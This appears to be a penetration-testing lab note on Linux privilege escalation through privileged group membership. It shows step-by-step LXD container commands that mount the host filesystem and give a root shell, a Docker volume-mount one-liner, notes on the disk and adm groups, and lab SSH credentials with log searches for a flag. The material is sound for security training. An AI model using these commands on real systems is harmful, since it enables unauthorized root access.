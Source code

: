 # Privileged Groups

## LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. 

Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at /mnt/root.

id
uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)

## Exploitation

1)
unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/

2)
lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge

3)
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b

4)
lxc init alpine r00t -c security.privileged=true

Creating r00t

5)
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t

6)
lxc start r00t
lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 

## Docker

docker run -v /root:/mnt -it ubuntu

## Disk

Users within the disk group have full access to any devices contained within /dev, such as /dev/sda1

An attacker with these privileges can use debugfs to access the entire file system with root level privileges.

## ADM

Members of the adm group are able to read all logs stored in /var/log. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

id
uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)

## LAB

ssh secaudit@10.129.181.58
Academy_LLPE!

id
uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)

grep -Rnw '/var/log/' -e 'HTB{.*}'
grep: /var/log/btmp: Permission denied
grep: /var/log/installer/cdebconf/questions.dat: Permission denied
grep: /var/log/installer/cdebconf/templates.dat: Permission denied
grep: /var/log/installer/partman: Permission denied
grep: /var/log/installer/syslog: Permission denied


grep -Rnw '/var/log/' -e 'flag'

grep: /var/log/btmp: Permission denied
grep: /var/log/installer/cdebconf/questions.dat: Permission denied
grep: /var/log/installer/cdebconf/templates.dat: Permission denied
grep: /var/log/installer/partman: Permission denied
grep: /var/log/installer/syslog: Permission denied
/var/log/apache2/access.log:127:10.10.14.3 - - [01/Sep/2020:05:34:22 +0200] "GET /flag%20=%20ch3ck_th0se_gr0uP_m3mb3erSh1Ps! HTTP/1.1" 301 409 "-" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
/var/log/apache2/access.log:128:10.10.14.3 - - [01/Sep/2020:05:34:22 +0200] "GET /flag%20=%20ch3ck_th0se_gr0uP_m3mb3erSh1Ps HTTP/1.1" 404 27847 "-" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
